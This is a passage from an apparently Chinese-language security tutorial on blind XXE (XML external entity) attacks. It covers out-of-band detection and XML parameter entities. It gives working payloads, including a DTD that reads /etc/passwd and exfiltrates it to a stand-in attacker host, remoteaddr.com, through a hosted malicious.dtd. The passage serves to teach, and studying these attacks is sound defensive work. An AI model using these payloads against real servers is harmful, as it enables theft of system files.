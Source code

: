 #### Blind XXE

很多情况下，XXE 攻击是不带回显的，因此不能直接访问服务器端文件，这使得 XXE 攻击难度增大.

一般有三种方法实现 Blind XXE:

1. out-of-band (OAST), 用外部服务器来接收返回内容.
2. 故意构造 XML 错误，从 XML Parser 的错误信息中获取敏感信息.
3. 一个变种：重利用本地 DTD 文件.

#### Out-Of-Band 攻击

1.判断是否 XXE 攻击成功

```xml
<!DOCTYPE foo [ <!ENTITY oob SYSTEM "http://remoteaddr.com"> ]>
```

攻击者可以监视 HTTP 请求和 DNS 请求来判断 XXE 攻击是否成功.
一般的 XML 自定义实体只能在**文档中**调用后才能起效，如果攻击者不能调用自定义实体，或者没有回显，普通的实体攻击就失效了. 这个时候，就要使用 **XML 参数实体**了.
XML 参数实体是一种特殊的 XML 实体，它**只能**在 **DTD 内**被调用. 对于 XML 参数，有两点必须注意:

* 定义参数实体时%要在实体名前:

```
<!ENTITY % myparameterentity "my parameter entity value" >
```

* 用参数实体时也必须要带%:

```
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://remoteaddr.com"> %xxe; ]>
```

2.利用 Out-Of-Band 获取文件 

一个利用的 Out-Of-Band XXE 攻击读取 `/etc/passwd` 的 DTD 例子：

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://remoteaddr.com/?x=%file;'>">
%eval;
%exfiltrate;
```

这个例子中 DTD 做了这几件事：

- 定义参数实例 `file`, 其内容为 `/etc/passwd` 的内容.
- 定义参数实例eval, 它包含了一个动态的 XML 参数实例定义exfiltrate，这个exfiltrate会向攻击者的服务器发送包含 `file` (`/etc/passwd`) 内容的 HTTP 请求.
- 调用 `%eval` 使得 `exfiltrate` 被动态地定义.
- 调用 `%exfiltrate` 使得服务器发送相关内容.

以上的 DTD 必须保存在**攻击者的服务器上**以供**被攻击服务器**访问. 这里，我们假设其地址为 `http://remoteaddr.com/malicious.dtd`.

此时，攻击者可以向服务器提交恶意代码:

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://remoteaddr.com/malicious.dtd"> %xxe;]>
```
